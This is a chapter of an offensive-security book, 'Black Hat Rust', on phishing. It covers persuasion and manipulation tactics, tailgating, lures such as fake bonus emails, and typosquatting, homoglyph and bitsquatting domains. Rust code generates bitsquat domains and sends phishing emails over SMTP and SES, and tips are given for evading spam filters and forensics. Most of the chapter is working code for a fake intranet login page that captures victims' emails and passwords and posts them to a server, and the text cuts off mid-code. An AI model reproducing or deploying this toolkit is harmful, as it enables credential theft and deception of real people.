







+++
title = "Black Hat Rust - Chapter 9"
date = 2021-01-01T6:00:00Z
type = "page"
url = "/black-hat-rust/9"
access = "paid_members"
+++


# Phishing with WebAssembly

Sometimes, finding technical vulnerabilities is not possible: you don't have the skills, don't have the right team, or simply don't have the time.

When you can't attack the infrastructure, you attack the people. And I have good news: they are, most of the time, way more vulnerable than the infrastructure. Furthermore, phishing attacks are particularly low cost.

But, while computer hacking requires deep technical knowledge to understand how the Operating Systems and programming languages work, Human hacking requires understanding how Humans work to influence them.

<!--
sim swapping
-->

## Social engineering

Social engineering is all about persuading. Persuading someone to give you pieces of information, to do something, or to give you access that you shouldn't have.

While rarely present in engineering curriculums, learning how to persuade is a key element of any initiative: as soon as you want to do something, someone will find a reason to oppose. This leaves you 2 choices:

- Either you abandon.
- Or you persuade the person(s) that what you want to do is the right thing, and it needs to be done.

As you may have guessed, it is the latter that we will learn in this chapter.

And I have even more good news: The art of persuasion hasn't changed in 2000 years! Thus there are countless writings on the topic.


### The Art of Persuasion


More than 2000 years ago, the Greek philosopher Aristotle wrote what may be the most crucial piece of work on persuasion: [Rhetoric](https://en.wikipedia.org/wiki/Rhetoric_(Aristotle)). He explains that there are three dimensions of a persuasive discourse:

- Ethos (credibility)
- Pathos (emotion)
- Logos (reason)


### Ethos (credibility)

In order to persuade, your target has to see you as a credible authority on a topic or for asking something.

Will a secretary ever ask for the credentials of a production database?

No!

So as phishing is more about asking someone to do something than spreading ideas, you have to build a character that is legitimate to make the requests you want to make.


### Pathos (emotion)

Once credibility is established, you need to create an emotional connection with your target. This is a deep and important topic, and we will learn more about it below.

For now, remember that one of the best ways to create an emotional connection is with storytelling.

You have to invent a credible story with a disruptive element that only your target can solve.


### Logos (reason)


Finally, once the connection with the other person is established, you have to explain why your request or idea is important. Why should your target care about your request or idea?


Why should this system administrator give you a link to reset an account's credentials?

Maybe because you are blocked and won't be able to work until you are able to reset your credentials.


### Exploiting emotions

Our brain is divided into multiple regions responsible for different things about our functioning.

There are 3 regions that are of interest to us:

* The neocortex
* The hypothalamus
* The cerebellum and brainstem




**The neocortex** is responsible for our logical thinking.

**The hypothalamus** is responsible for our emotions and feelings.

**The cerebellum and brainstem** are responsible for our primitive functions. The cerebellum's function is to coordinate muscle movements, maintain posture, and balance, while the brainstem, which connects the rest of the brain to the spinal cord, performs critical functions such as regulating cardiac and respiratory function, helping to control heart rate and breathing rate.

**If you want to influence someone, you should bypass its neocortex and speak to its hypothalamus.**

That's why you can't understand the success of populist politicians with your neocortex. Their discourses are tailored to trigger and affect the hypothalamus of their listeners. They are designed to provoke emotive, not intellectual, reactions.

Same for advertisements.

> Please note that this model is controversial. Still, using this model to analyze the world opens a lot of doors.


### Framing

Have you ever felt not being heard? Whether it be in a diner with friends, while presenting a project in a meeting, or when pitching your new startup to an investor?

So you start optimizing for the wrong things, tweaking the irrelevant details. "A little bit more of blue in the pitch deck, it's the color of trust!"

**Stop!**

Would you ever build a house, as beautiful as its shutters may be, without good foundations?

It's the same thing for any discourse whose goal is to persuade. You need to build solid foundations before unpacking the ornaments.

These foundations are called **framing**.

Framing is the science and art to **set the boundaries of a discourse, a debate, or a situation**.

The most patent example of framing you may be influenced by in daily life is news media. You always thought that mass media can't tell **what** to think. You are right. What they do instead is to tell you **what to think about**.

They build a frame around the facts in order to push their political agenda. **They make you think on their own terms, not yours**. Not objective terms. **You react, you lose**.


The problem is: **You can't talk to the Neocortex and expose your logical arguments if the lizard brain already (unconsciously) rejected you**.

This is where framing comes into play.


#### Frame control

When you are reacting to the other person, that person owns the frame. When the other person is reacting to what you do and say, you own the frame.

This is as simple as that. Framing is about who leads the (emotional and intellectual) dance.

As said by Oren Klaff in its book *Pitch Anything*, *When frames come together, the first thing they do is collide. And this isn’t a friendly competition—it’s a death match. Frames don’t merge. They don’t blend. And they don’t intermingle. They collide, and the stronger frame absorbs the weaker.*
*Only one frame will dominate after the exchange, and the other frames will be subordinate to the winner. This is what happens below the surface of every business meeting you attend, every sales call you make, and every person-to-person business communication you have.*


In the same book, the author describes 5 kinds of frames (+ another one, but irrelevant here):

**The Power Frame** is when someone is expected (by social norms, a boss, for example) to have more power than another person. The author explains that defiance and humor is the only way to seize a power frame.


**The Intrigue Frame**: people do not like to hear what they already know. Thus you have to entertain some kind of intrigue, mystery. The best way to do that is by telling a personal story.

**The Time Frame**: "I only have 10 minutes for you, but come in"

A time frame is when someone is trying to impose their schedule over yours.

To break a time frame, you simply have to tell the other person that you don't work like that. If they want you, they will have to adapt.


**Analyst Frame** is when your targets are asking for numbers. It will never miss (in my experience) when confronted by engineers or finance people. They looooove numbers, especially when they are big and growing.

To counter this kind of frame, use storytelling. You have to hit the emotions, not the Neocortex.

**The Prizing Frame**: the author describes prizing as *"The sum of the actions you take to get your target to understand that he is a commodity and you are the prize."*.

If you do not value yourself, then no one else will. So start acting as if you are the gem, and **they** may lose big by not paying attention.

**Warning**: It can quickly escalate into an unhealthy ego war.

#### Conclusion

If you don't own the frame, your arguments will miss 100% of the time.

**Before trying to persuade anyone of anything, you have to create a context favorable to your discourse**. As for everything, it requires practice to master.

Don't waste time: start analyzing who owns the frame in your next meeting.


I highly recommend **"Pitch Anything: An Innovative Method for Presenting, Persuading, and Winning the Deal"**, by *Oren Klaff* to deepen the topic.


## Nontechnical hacks

There are a plethora of nontechnical hacks that may allow you to find interesting things about your targets.

Here are the essential ones.


<!-- Tailgating -->

### Dumpster diving

Yeah, you heard it right. By digging in the trash of your target, you may be able to find some interesting, non-destroyed papers: invoices, contracts, HR documents...

In the worst case, it may even be printed private emails or credentials.


### Shoulder surfing

Shoulder surfing simply means that you look where or what you shouldn't:

- Computer screens (in the train or cafes, for example)
- Employees' badges (in public transports)


### Physical intrusion

Actually, physical intrusion can be highly technical, but the skills are not related to digital.

There are basically two ways to practice physical intrusion:

**Lockpicking**: like in movies... The reality is quite different, and it's most of the time impractical. To learn the basics of lock picking, take a look at [the MIT Guide to Lock Picking (PDF)](https://github.com/skerkour/black-hat-rust/blob/main/extra/lock_picking/MITLockGuide.pdf).

**Tailgating**: When you follow an employee in a building.

The best way not to look suspicious is by meeting and joking with employees during a smoke break. You can pretend that you also are an employee and then follow them in the building. If a badge is required, your new friends may be able to help you, because "you forgot yours on your desk" ;)


## Phishing


<!-- the more the email is personnalised, the greater chances of success are
 -->

In marketing, it's called outbound marketing.

It's when you directly reach your target. I think I don't need to attach a screenshot because you certainly already received thousands of these annoying emails and SMS telling you to update your bank password or something like that.

We call a phishing operation a **campaign**, like a marketing campaign.

<!-- As you may have guessed, the goal is to do better than these annoying spam messages as it would raise a red flag in the head of most working professionals.-->


### A few ideas for your campaigns

<!-- on va oublier le loto, et jour plus subtile -->

Sending thousands of junk emails will only result in triggering spam filters. Instead, we need to craft clever emails that totally look like something you could have received from a coworker or family member.

#### Please check your yearly bonus

The idea is to let the victim believe that to receive their yearly salary bonus, they have to check something on the intranet of the company. Of course, we will send a link directing to a phishing portal in order to collect the credentials.


#### Here is the document you asked me for

The idea is to let the victim believe that someone from inside the company just sent them the document they asked. It may especially work in bigger companies where processes are often chaotic.

This technique is risky as if the victim didn't ask for a document, it may raise suspicion.


## Watering holes

Instead of phishing for victims, we let the victims come to us.

In marketing, it's called inbound marketing.

The strategy is either to trick our victims or to create something (a website, a Twitter account...) so compelling for our targets that they will engage with it without us having to ask.


There are some particularly vicious kinds of watering holes:

### Typos squatting

Have you ever tried to type `google.com` in your web browser search bar but instead typed `google.con`? This is a typo.

Now imagine our victim wants to visit `mybank.com` but instead types `mybamk.com`. If an attacker owns the domain `mybamk.com` and sets up a website absolutely similar to `mybank.com` but collects credentials instead of providing legitimate banking services.

The same can be achieved with any domain name! Just look at your keyboard: Which keys are too close and similar? Which typos do you do the most often?

### Unicodes domains

Do you see the difference between `apple.com` and `аpple.com`?

The second example is the Unicode Cyrillic `а` (U+0430) rather than the ASCII `a` (U+0041)!


This is known as an **homoglyph attack**.


### Bit squatting

And last but not least, bit squatting.

I personally find this kind of attack mind-blowing!

The idea is that computers suffer from memory errors where one or more bits are corrupted, they are different than their expected value. It can come from electromagnetic interference or [cosmic rays](https://www.johndcook.com/blog/2019/05/20/cosmic-rays-flipping-bits/) (!).

A bit that is expected to be `0`, may flips to `1`, and vice versa.




In this example, if attackers control `acc.com`, they may receive originally destined for `abc.com` **without any human error**!


Here is a small program to generate all the "bitshifted" and valid alternatives of a given domain:
**[ch_09/dnsquat/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/dnsquat/src/main.rs)**
```rust
use std::env;

fn bitflip(charac: u8, pos: u8) -> u8 {
    let shiftval = 1 << pos;
    charac ^ shiftval
}

fn is_valid(charac: char) -> bool {
    charac.is_ascii_alphanumeric() || charac == '-'
}

fn main() {
    let args = env::args().collect::<Vec<String>>();
    if args.len() != 3 {
        println!("Usage: dnsquat domain .com");
        return;
    }

    let name = args[1].to_lowercase();
    let tld = args[2].to_lowercase();

    for i in 0..name.len() {
        let charac = name.as_bytes()[i];
        for bit in 0..8 {
            let bitflipped = bitflip(charac.into(), bit);
            if is_valid(bitflipped as char)
                && bitflipped.to_ascii_lowercase() != charac.to_ascii_lowercase()
            {
                let mut bitsquatting_candidat = name.as_bytes()[..i].to_vec();
                bitsquatting_candidat.push(bitflipped);
                bitsquatting_candidat.append(&mut name.as_bytes()[i + 1..].to_vec());

                println!(
                    "{}{}",
                    String::from_utf8(bitsquatting_candidat).unwrap(),
                    tld
                );
            }
        }
    }
}
```

```bash
$ cargo run -- domain .com
eomain.com
fomain.com
lomain.com
tomain.com
dnmain.com
dmmain.com
dkmain.com
dgmain.com
dolain.com
dooain.com
doiain.com
doeain.com
do-ain.com
domcin.com
domein.com
domiin.com
domqin.com
domahn.com
domakn.com
domamn.com
domaan.com
domayn.com
domaio.com
domail.com
domaij.com
domaif.com
```

<!-- ## The steps of a phishing campaign -->


<!-- ## Technology -->


## Telephone


With the advances in Machine Learning (ML) and the emergence of [deepfakes](https://www.theguardian.com/technology/2020/jan/13/what-are-deepfakes-and-how-can-you-spot-them), it will be easier and easier for scammers and attackers to spoof an identity over the phone, and we can expect this kind of attack to only increase on impact in the future, such as [this attack](https://nakedsecurity.sophos.com/2019/09/05/scammers-deepfake-ceos-voice-to-talk-underling-into-243000-transfer/) where a scammer convinced an executive to send them $243,000.

<!--
https://news.ycombinator.com/item?id=21536320

https://www.econotimes.com/Deepfake-Voice-Technology-The-Good-The-Bad-The-Future-1601278

https://www.theverge.com/2020/7/27/21339898/deepfake-audio-voice-clone-scam-attempt-nisos
-->


<!-- ## Webpage -->


## WebAssembly

WebAssembly is described by the [webassembly.org](https://webassembly.org/) website as: *WebAssembly (abbreviated Wasm) is a binary instruction format for a stack-based virtual machine. Wasm is designed as a portable compilation target for programming languages, enabling deployment on the web for client and server applications.*

...

Put in an intelligible way, WebAssembly (wasm) is fast and efficient low-level code that can be executed by most of the browsers (as of July 2021, ~[93.48](https://caniuse.com/wasm) of web users can run WebAssembly).

But, you dont't write wasm by hand, it's a compilation target. You write your code in a high-level language such as Rust, and the compiler outputs WebAssembly!

In theory, it sunsets a future where client web applications won't be written in JavaScript, but in any language you like that can be compiled to WebAssembly.





There is also the [wasmer](https://github.com/wasmerio/wasmer) runtime to execute wasm on servers.


## Sending emails in Rust


Sending emails in Rust can be achieved in two ways: either by using an SMTP server or by using a third-party service with an API such as [AWS SES](https://aws.amazon.com/ses/) or [Mailgun](https://www.mailgun.com).


### Building beautiful responsive emails

The first thing to do to create a convincing email is to create a beautiful responsive (that can adapt to any screen size) template.

In theory, emails are composed of simple HTML. But every web developer knows it: It's in practice close to impossible to code email templates manually. There are dozen, if not more, email clients, all interpreting HTML in a different way. This is the definition of tech legacy.

Fortunately, there is the awesome [mjml](https://mjml.io) framework. You can use the online editor to create your templates: [https://mjml.io/try-it-live](https://mjml.io/try-it-live).



I guarantee you that it would be tough to achieve without mjml!


We will use the following template:
```html
<mjml>
  <mj-body>
    <mj-section>
      <mj-column>

        <mj-text font-size="36px" font-family="helvetica" align="center">{{ title }}</mj-text>

        <mj-divider border-color="#4267B2"></mj-divider>

        <mj-text font-size="20px" font-family="helvetica">{{ content }}</mj-text>

      </mj-column>
    </mj-section>
  </mj-body>
</mjml>
```

You can inspect the generated HTML template on GitHub: [ch_09/emails/src/template.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/template.rs).


### Rendering the template

Now we have a template, we need to fill it with content. We will use the [tera](https://crates.io/crates/tera) crate due to its ease of use.


[ch_09/emails/src/template.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/template.rs)
```rust
use serde::{Deserialize, Serialize};

#[derive(Debug, Clone, Serialize, Deserialize)]
pub struct EmailData {
    pub title: String,
    pub content: String,
}

pub const EMAIL_TEMPLATE: &str = r#"""
<!doctype html>
// ...
"""#;
```

[ch_09/emails/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/main.rs)
```rust
    // email data
    let from = "evil@hacker.com".to_string();
    let to = "credule@kerkour.com".to_string();
    let subject = "".to_string();
    let title = subject.clone();
    let content = "".to_string();

    // template things
    let mut templates = tera::Tera::default();
    // don't escape input as it's provided by us
    templates.autoescape_on(Vec::new());
    templates.add_raw_template("email", template::EMAIL_TEMPLATE)?;

    let email_data = tera::Context::from_serialize(template::EmailData { title, content })?;
    let html = templates.render("email", &email_data)?;

    let email = Message::builder()
        .from(from.parse()?)
        .to(to.parse()?)
        .subject(subject)
        .body(html.to_string())?;

```

### Sending emails using SMTP


SMTP is the standard protocol for sending emails. Thus, it’s the most portable way to send emails as every provider accepts it.


[ch_09/emails/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/main.rs)
```rust
    let smtp_credentials =
        Credentials::new("smtp_username".to_string(), "smtp_password".to_string());

    let mailer = AsyncSmtpTransport::<Tokio1Executor>::relay("smtp.email.com")?
        .credentials(smtp_credentials)
        .build();

    smtp::send_email(&mailer, email.clone()).await?;

```

[ch_09/emails/src/smtp.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/smtp.rs)
```rust
use lettre::{AsyncSmtpTransport, AsyncTransport, Message, Tokio1Executor};

pub async fn send_email(
    mailer: &AsyncSmtpTransport<Tokio1Executor>,
    email: Message,
) -> Result<(), anyhow::Error> {
    mailer.send(email).await?;

    Ok(())
}
```


### Sending emails using SES

[ch_09/emails/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/main.rs)
```rust
    // load credentials from env
    let ses_client = SesClient::new(rusoto_core::Region::UsEast1);
    ses::send_email(&ses_client, email).await?;
```

[ch_09/emails/src/ses.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/emails/src/ses.rs)
```rust
use lettre::Message;
use rusoto_ses::{RawMessage, SendRawEmailRequest, Ses, SesClient};

pub async fn send_email(ses_client: &SesClient, email: Message) -> Result<(), anyhow::Error> {
    let raw_email = email.formatted();

    let ses_request = SendRawEmailRequest {
        raw_message: RawMessage {
            data: base64::encode(raw_email).into(),
        },
        ..Default::default()
    };

    ses_client.send_raw_email(ses_request).await?;

    Ok(())
}
```


### How to improve delivery rates

Improving email deliverability is the topic of entire books, and a million to billion-dollar industry, so it would be impossible to cover everything here.

That being said, here are a few tips to improve the delivery rates of your campaigns:


**Use one domain per campaign**: Using the same domain across multiple offensive campaigns is a very, very bad idea. Not only that once a domain is flagged by spam systems, your campaigns will lose their effectiveness, but it will also allow forensic analysts to understand more easily your *modus operandi*.


**Don't send emails in bulk**: The more your emails are targeted, the less are the chance to be caught by spam filters, and, more importantly, to raise suspicion. Also, sending a lot of similar emails at the same moment may trigger spam filters.

**IP address reputation**: When evaluating if an email is spam or not, algorithms will take into account the reputation of the IP address of the sending server. Basically, each IP address has a reputation, and once an IP is caught sending too much undesirable emails, its reputation drops, and the emails are blocked. A lot of parameters are taken into account like: is the IP from a residential neighborhood (often blocked, because infected by botnets individual computers used to be the source of a lot of spam) or a data-center? And so on...

<!--
The IP address from the server you are sending your campaigns should never have been used for attacks before. Like domains, change the IP address of you email server for each campaign. -->

<!--
**Set up SPF, DKIM, and DMARC**: SPF (Sender Policy Framework) *is an email authentication method designed to detect forging sender addresses during the delivery of the email*.

DKIM (DomainKeys Identified Mai) *is an email authentication method designed to detect forged sender addresses in email (email spoofing), a technique often used in phishing and email spam*.

DMARC (Domain-based Message Authentication, Reporting, and Conformance) *is an email authentication and reporting protocol. It is designed to give email domain owners the ability to protect their domain from unauthorized use, commonly known as email spoofing.*


Those are all TXT DNS entries to set up. it can be done in ~5 mins, so there is absolutely no reason to not do it.

So why use anti-spam tools for phishing? Because if a domain hasn't those records set up, anti-spam filter will almost universally block the email from this domain.

-->

**Spellcheck your content**: We all received this email from this Nigerian prince wanting to send us a briefcase full of cash. You don't want to look like that, do you?


## Implementing a phishing page in Rust

Phishing pages are basically forms designed to mirror an actual website (a bank login portal, an intranet login page...), harvest the credentials of the victim, and give as little clue as possible to the victim that they just have been phished.


## Architecture





<!-- We won't spend time detailing the server now, we will dig this topic in the next chapter. -->


## Cargo Workspaces

When a project becomes larger and larger or when different people are working on different parts of the project, it may no longer be convenient or possible to use a single crate.


This is when Cargo workspaces come into play.
A workspace allows multiple crates to share the same `target` folder and `Cargo.lock` file.

Here, it will allow us to split the different parts of our project into different crates:

```toml
[workspace]
members = [
  "webapp",
  "server",
  "common",
]

default-members = [
  "webapp",
  "server",
]

[profile.release]
lto = true
debug = false
debug-assertions = false
codegen-units = 1
```

Note that profile configuration must be declared in the workspace's `Cargo.toml` file, and no longer in individual crates' `Cargo.toml` files.


## Deserialization in Rust

<!-- serde -->

One of the most recurring questions when starting a new programming language is: But how to encode/decode a struct to JSON? (or XML, or CBOR...)

In Rust it's simple: by annotating your structures with [`serde`](https://crates.io/crates/serde)


Remember the procedural macros in chapter 4? `Serialize` and `Deserialize` are both procedural macros provided by the `serde` crate to ease the serialization/deserialization of Rust types (`struct`, `enum`...) into/from any data format.

```rust
use serde::{Deserialize, Serialize};

#[derive(Serialize, Deserialize)]
pub struct LoginRequest {
    pub email: String,
    pub password: String,
}
```

Then you can serialize / deserialize JSON with a specialized crate such as [`serde_json`](https://crates.io/crates/serde_json):
```rust
// decode
let req_data: LoginRequest = serde_json::from_str("{ ... }")?;

// encode
let json_response = serde_json::to_string(&req_data)?;
```

Most of the time, you don't have to do it yourself as it's taken care by some framework, such as the HTTP client library or the webserver.

<!--
### Procedural macros

Wait, what is `#[derive(Serialize, Deserialize)]`?

It's known as a [procedural macro](https://doc.rust-lang.org/reference/procedural-macros.html). *Procedural macros allow you to run code at compile time that operates over Rust syntax, both consuming and producing Rust syntax. You can sort of think of procedural macros as functions from an AST to another AST.*.

In this case, it will automagically implement serde's [`Serialize`](https://docs.serde.rs/serde/trait.Serialize.html) and [`Deserialize`](https://docs.serde.rs/serde/trait.Deserialize.html) traits. -->


## A client application with WebAssembly

Whether it be with React, VueJS, Angular, or in Rust, modern web applications are composed of 3 kinds of pieces:

* Components
* Pages
* Service




**Components** are reusable pieces and UI elements. An input field, or a button, for example.

**Pages** are assemblies of components. They match **routes** (URLs). For example, the `Login` page matches the `/login` route. The `Home` page matches the `/` route.

And finally, **Services** are auxiliary utilities to wrap low-level features or external services such as an HTTP client, a Storage service...


The goal of our application is simple: It's a portal where the victim will enter their credentials (thinking that it's a legitimate form), the credentials are going to be saved in an SQLite database, and then we redirect the victims to an error page to let them think that the service is temporarily unavailable and they should try again later.


### Installing the toolchain

[`wasm-pack`](https://github.com/rustwasm/wasm-pack) helps you build Rust-generated WebAssembly packages and use it in the browser or with Node.js.

```bash
$ cargo install -f wasm-pack
```

### Models

Note that one great thing about using the same language on the backend as on the frontend is the ability to reuse models:

**[ch_09/phishing/common/src/api.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/common/src/api.rs)**
```rust
pub mod model {
    use serde::{Deserialize, Serialize};

    #[derive(Debug, Clone, Serialize, Deserialize)]
    #[serde(rename_all = "snake_case")]
    pub struct Login {
        pub email: String,
        pub password: String,
    }

    #[derive(Debug, Clone, Serialize, Deserialize)]
    #[serde(rename_all = "snake_case")]
    pub struct LoginResponse {
        pub ok: bool,
    }
}

pub mod routes {
    pub const LOGIN: &str = "/api/login";
}
```

Now, if we make a change, there is no need to manually do the same change elsewhere. Adios the desynchronized model problems.


### Components

In the beginning, there are components. Components are reusable pieces of functionality or design.

To build our components, we use the [`yew`](https://yew.rs/), crate which is, as I'm writing this, the most advanced and supported Rust frontend framework.


`Properties` (or `Props`) can be seen as the parameters of a component. For examples, the function `fn factorial(x: u64) -> u64` has a parameter `x`. With components, it's the same thing. If we want to render them with specific data, we use `Properties`.

**[ch_09/phishing/webapp/src/components/error_alert.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/components/error_alert.rs)**
```rust
use yew::{html, Component, ComponentLink, Html, Properties, ShouldRender};

pub struct ErrorAlert {
    props: Props,
}

#[derive(Properties, Clone)]
pub struct Props {
    #[prop_or_default]
    pub error: Option<crate::Error>,
}
```


```rust
impl Component for ErrorAlert {
    type Message = ();
    type Properties = Props;

    fn create(props: Self::Properties, _: ComponentLink<Self>) -> Self {
        ErrorAlert { props }
    }

    fn update(&mut self, _: Self::Message) -> ShouldRender {
        true
    }

    fn change(&mut self, props: Self::Properties) -> ShouldRender {
        self.props = props;
        true
    }

    fn view(&self) -> Html {
        if let Some(error) = &self.props.error {
            html! {
                <div class="alert alert-danger" role="alert">
                    {error}
                </div>
            }
        } else {
            html! {}
        }
    }
}
```

Pretty similar to (old-school) React, isn't it?

Another component is the `LoginForm` which wraps the logic to capture and save credentials.

**[ch_09/phishing/webapp/src/components/login_form.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/components/login_form.rs)**
```rust
pub struct LoginForm {
    link: ComponentLink<Self>,
    error: Option<Error>,
    email: String,
    password: String,
    http_client: HttpClient,
    api_response_callback: Callback<Result<model::LoginResponse, Error>>,
    api_task: Option<FetchTask>,
}

pub enum Msg {
    Submit,
    ApiResponse(Result<model::LoginResponse, Error>),
    UpdateEmail(String),
    UpdatePassword(String),
}
```

```rust
impl Component for LoginForm {
    type Message = Msg;
    type Properties = ();

    fn create(_: Self::Properties, link: ComponentLink<Self>) -> Self {
        Self {
            error: None,
            email: String::new(),
            password: String::new(),
            http_client: HttpClient::new(),
            api_response_callback: link.callback(Msg::ApiResponse),
            link,
            api_task: None,
        }
    }
```

```rust
    fn update(&mut self, msg: Self::Message) -> ShouldRender {
        match msg {
            Msg::Submit => {
                self.error = None;
                // let credentials = format!("email: {}, password: {}", &self.email, &self.password);
                // console::log_1(&credentials.into());
                let credentials = model::Login {
                    email: self.email.clone(),
                    password: self.password.clone(),
                };
                self.api_task = Some(self.http_client.post::<model::Login, model::LoginResponse>(
                    api::routes::LOGIN.to_string(),
                    credentials,
                    self.api_response_callback.clone(),
                ));
            }
            Msg::ApiResponse(Ok(_)) => {
                console::log_1(&"success".into());
                self.api_task = None;
                let window: Window = web_sys::window().expect("window not available");
                let location = window.location();
                let _ = location.set_href("https://kerkour.com/black-hat-rust");
            }
            Msg::ApiResponse(Err(err)) => {
                self.error = Some(err);
                self.api_task = None;
            }
            Msg::UpdateEmail(email) => {
                self.email = email;
            }
            Msg::UpdatePassword(password) => {
                self.password = password;
            }
        }
        true
    }
```

And finally, the `view` function (similar to `render` with other frameworks).

```rust
    fn view(&self) -> Html {
        let onsubmit = self.link.callback(|ev: FocusEvent| {
            ev.prevent_default(); /* Prevent event propagation */
            Msg::Submit
        });
        let oninput_email = self
            .link
            .callback(|ev: InputData| Msg::UpdateEmail(ev.value));
        let oninput_password = self
            .link
            .callback(|ev: InputData| Msg::UpdatePassword(ev.value));
```

You can embed other components (here `ErrorAlert`) like any other HTML element:
```rust
        html! {
            <div>
                <components::ErrorAlert error=&self.error />
                <form onsubmit=onsubmit>
                    <div class="mb-3">
                        <input
                            class="form-control form-control-lg"
                            type="email"
                            placeholder="Email"
                            value=self.email.clone()
                            oninput=oninput_email
                            id="email-input"
                        />
                    </div>
                    <div class="mb-3">
                        <input
                            class="form-control form-control-lg"
                            type="password"
                            placeholder="Password"
                            value=self.password.clone()
                            oninput=oninput_password
                        />
                    </div>
                    <button
                        class="btn btn-lg btn-primary pull-xs-right"
                        type="submit"
                        disabled=false>
                        { "Sign in" }
                    </button>
                </form>
            </div>
        }
    }
}
```

### Pages

Pages are assemblages of components and are components themselves in yew.

**[ch_09/phishing/webapp/src/pages/login.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/pages/login.rs)**
```rust
pub struct Login {}

impl Component for Login {
    type Message = ();
    type Properties = ();

    // ...

    fn view(&self) -> Html {
        html! {
            <div>
                <div class="container text-center mt-5">
                    <div class="row justify-content-md-center mb-5">
                        <div class="col col-md-8">
                            <h1>{ "My Awesome intranet" }</h1>
                        </div>
                    </div>
                    <div class="row justify-content-md-center">
                        <div class="col col-md-8">
                            <LoginForm />
                        </div>
                    </div>
                </div>
            </div>
        }
    }
}
```


### Routing

Then we declare all the possible routes of our application.

As we saw previously, routes map URLs to pages.

**[ch_09/phishing/webapp/src/lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/lib.rs)**
```rust
#[derive(Switch, Debug, Clone)]
pub enum Route {
    #[to = "*"]
    Fallback,
    #[to = "/error"]
    Error,
    #[to = "/"]
    Login,
}
```


### Services

#### Making HTTP requests

Making HTTP requests is a little bit harder, as we need a callback and to deserialize the responses.

**[ch_09/phishing/webapp/src/services/http_client.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/services/http_client.rs)**
```rust
#[derive(Default, Debug)]
pub struct HttpClient {}

impl HttpClient {
    pub fn new() -> Self {
        Self {}
    }

    pub fn post<B, T>(
        &mut self,
        url: String,
        body: B,
        callback: Callback<Result<T, Error>>,
    ) -> FetchTask
    where
        for<'de> T: Deserialize<'de> + 'static + std::fmt::Debug,
        B: Serialize,
    {
        let handler = move |response: Response<Text>| {
